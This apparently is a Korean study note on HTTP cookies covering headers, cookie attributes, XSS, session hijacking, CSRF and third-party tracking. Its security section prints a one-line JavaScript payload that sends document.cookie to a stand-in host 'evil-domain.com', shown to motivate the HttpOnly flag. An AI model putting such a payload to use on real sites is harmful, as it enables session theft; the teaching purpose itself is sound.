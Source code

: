 ```yaml
---
title: "💻 03. HTTP 쿠키 :cookie:"
categories: network
tags: [ network ]
---
```


# HTTP 쿠키

## HTTP 쿠키란?

HTTP쿠키는 서버가 사용자의 웹 브라우저에 전송하는 작은 데이터 파일이다. 헨젤과 그레텔에서 주인공이 길을 지나며 남긴 빵 부스러기와 같다고 해서 붙여진 이름이다. 클라이언트는 그 데이터 파일을 저장해 놓았다가, 동일한 서버에 재 요청할 때 전송한다. 쿠키는 요청을 보낸 브라우저를 식별하는 데 주로 사용하며, 상태가 없는(stateless) HTTP 프로토콜에서 상태 정보를 기억시켜준다. 

## 쿠키의 목적

- 세션 관리(Session management)
  - 서버에 저장해야 할 로그인, 장바구니, 게임 스코어 등의 정보 관리
- 개인화(Personalization)
  - 사용자 선호, 테마 등의 세팅
- 트래킹(Tracking)
  - 사용자 행동을 기록하고 분석하는 용도

## 클라이언트 측의 데이터 저장

데이터를 클라이언트 측에 저장할 때 쿠키를 사용하던 과거와 달리 지금은 modern storage APIs를 사용할 것이 권장된다. 쿠키는 모든 요청마다 함께 전송되기 때문에 성능이 저하될 수 있기 때문이다.

## 저장된 쿠키 보기

- 개발자 도구 > Storage Inspector -> 스토리지 트리의 쿠키 스토리지

## 쿠키 만들기

### Set-Cookie 응답헤더와 Cookie 요청헤더

- `Set-Cookie`: 서버: 클라이언트야 쿠키 저장해!

```
Set-Cookie: 쿠키이름=쿠키값
Set-Cookie: 쿠키이름=쿠키값
```

- `Cookie`: 브라우저: 서버로 이전에 저장했던 모든 쿠키들 회신

```
Cookie: 쿠키이름1=쿠키값1; 쿠키이름2=쿠키값2
```

### Session 쿠키와 Permanent 쿠키

`Expires`나 `Max-Age`를 명시하지 않을 경우 클라이언트가 종료되면 삭제되는 **Session 쿠키**가 된다.  명시하면 클라이언트가 닫힐 때 만료되지 않는 **Permanent 쿠키**가 된다.

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; // Permanent 쿠키
```

### Secure 쿠키와 HttpOnly 쿠키

쿠키에 **Secure** 옵션을 줄 경우 **Https 프로토콜** 상에서 암호화된 요청일 경우만 전송된다.  **HttpOnly** 옵션을 줄 경우, **자바스크립트를 통해 쿠키 값에 접근하는 것을 막아** Cross-site 스크립팅 공격을 누그러뜨리는 데 도움을 줄 수 있다. 



### 쿠키의 스코프: Domain과 Path 속성

- `Domain`과 `Path` 디렉티브를 통해 특정 도메인 혹은 경로 제한 설정이 가능하다.
- `Domain`: 서브도메인 포함
  - 예를 들어, `Domain=naver.com`가 설정되면 쿠키들이 `dict.naver.com`, `news.naver.com`과 같은 서브 도메인 상에도 포함된다. 
- `Path`: 서브 디렉토리 포함
  - 예를 들어, `Path=/docs`가 설정되면 쿠키들이 `/docs`, `docs/Web/`, `docs/HTTP`와 같은 서브 디렉토리 상에도 포함된다.



### SameSite 쿠키

SameSite 쿠키는 쿠키가 cross-site 요청과 함께 전송되지 않게 한다.

### Document.cookie를 사용한 자바스크립트 접근

- `Document.cookie`를 사용해 쿠키를 만들어낼 수 있다. `HttpOnly`플래그가 설저어되지 않은 경우 기본 쿠키들은 자바스크립트로부터 잘 접근될 수 있다

```javascript
document.cookie = "yummy_cookie=choco";
document.cookie = "tasty_cookie=strawberry";
console.log(document.cookie);
// logs "yummy+cookie=choco; tasty_cookie=strawberry";
```



## 보안

### 세션 하이재킹과 XSS(Cross-Site Script**)**

**세션 하이재킹**이란 서버와 클라이언트 사이에서 이루어지는 통신에 낑겨서 클라이언트가 서버로 붙어 있는 세션을 탈취해오는 기술이다. **XSS(Cross-Site Script, 사이트 간 스크립팅)**는 권한이 없는 유저가 사이트 내에 악의적인 스크립트를 삽입하여 사용자의 쿠키, 세션 등을 탈취하거나, 의도하지 않은 비정상적인 행위를 하게끔 유도할 수 있는 취약점이다. 

HTTP 통신은 Stateless하기 때문에 기본적으로는 로그인을 해도 페이지 이동 시 로그아웃이 될 것이다. 따라서 서버는 세션을 이용하여 로그인 상태를 기억한다. 서버는 **Session** ID를 사용자에게 부여해주고 사용자는 쿠키를 이용해 Session ID를 저장한다. 공격자는 사용자와 서버 사이에 부여된 세션을 가로채 해당 사용자의 권한으로 사이트를 접근할 수 있게 된다. 소셜 공학을 사용하거나 애플리케이션 내의 XSS 취약점을 이용하여 쿠키를 가로챌 수 있다.

```javascript
(new Image()).src = "https://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

그렇다면 이를 방지하기 위해서는 어떻게 해야 할까? 쿠키에 `HttpOnly` 속성을 주면 자바스크립트를 통해 쿠키 값에 접근하는 것을 막아 공격을 누그러뜨리는 데 도움을 줄 수 있다.

### Cross-site 요청 위조 (CSRF)

불특정 다수를 대상으로 로그인된 사용자가 자신의 의지와는 무관하게 공격자가 의도한 행위(수정, 삭제, 등록 등)을 요청하게 하는 공격이다. XXS을 이용한 공격이 사용자가 특정 웹사이트를 신용하는 점을 노린 것이라면, 사이트간 요청 위조는 특정 웹사이트가 사용자의 웹브라우저를 신용하는 상태를 노린 것이다. 사용자가 웹사이트에 로그인한 상태에서 사이트간 요청 위조 공격 코드가 삽입된 페이지를 열면, 공격 대상이 되는 웹사이트는 위조된 공격 명령이 믿을 수 있는 사용자로부터 발송된 것으로 판단하게 되어 공격에 노출된다.



## 트래킹과 프라이버시

### 서드파티 쿠키

퍼스트파티 쿠키는 웹사이트 운영자가, 서드파티는 외부 업체가 심는 것이다. 브라우저가 서드파티 쿠키를 지원하면 쿠키를 인터넷 광고 업체 등 제3자에게 제공하는 것으로 기업 광고의 주요 자원이 된다. 광고주는 해당 쿠키로 이용자 성향을 파악해 타겟팅 광고를 할 수 있다. 그러나 이로 인한 개인 정보 침해 문제로 최근 많은 브라우저에서 서드파티 쿠키 지원을 중단하겠다고 발표했다. 

### DNT 요청 헤더 (Do Not Track)

사이트 내부 혹은 사이트간 트래킹 모두를 비활성화하는 신호로 사용된다.

### 좀비 쿠키와 에버쿠키

좀비 쿠키는 삭제 이후에 다시 생성되는 쿠키이다. 클라이언트 측 스크립트가 여러 곳(웹 스토리지 API, Flash로컬 공유 객체 등)에 쿠키 내용을 저장하고, 스크립트가 쿠키가 없음을 알아차리면 각 위치에 저장되어 있는 데이터를 사용하여 쿠키를 재생성한다. Evercookie는 좀비 쿠키를 생산하는 자바스크립트 기반 어플리케이션이다. 



## Reference

1. https://developer.mozilla.org/ko/docs/Web/HTTP/Cookies

2. 생활코딩: Node.js - 쿠키와 인증 시리즈: https://youtu.be/i51xW3eh-T4

3. [https://ko.wikipedia.org/wiki/%EC%82%AC%EC%9D%B4%ED%8A%B8_%EA%B0%84_%EC%9A%94%EC%B2%AD_%EC%9C%84%EC%A1%B0](https://ko.wikipedia.org/wiki/사이트_간_요청_위조)

4. http://it.chosun.com/site/data/html_dir/2020/02/16/2020021600579.html

5. https://gmyankee.tistory.com/86

6. http://wiki-camp.appspot.com/%5B%EB%B2%88%EC%97%AD%5D_HTTP_Cookie_%28Wikipedia%29?rev=2

7. https://ko.wikipedia.org/wiki/%EC%B6%94%EC%A0%81_%EA%B8%88%EC%A7%80

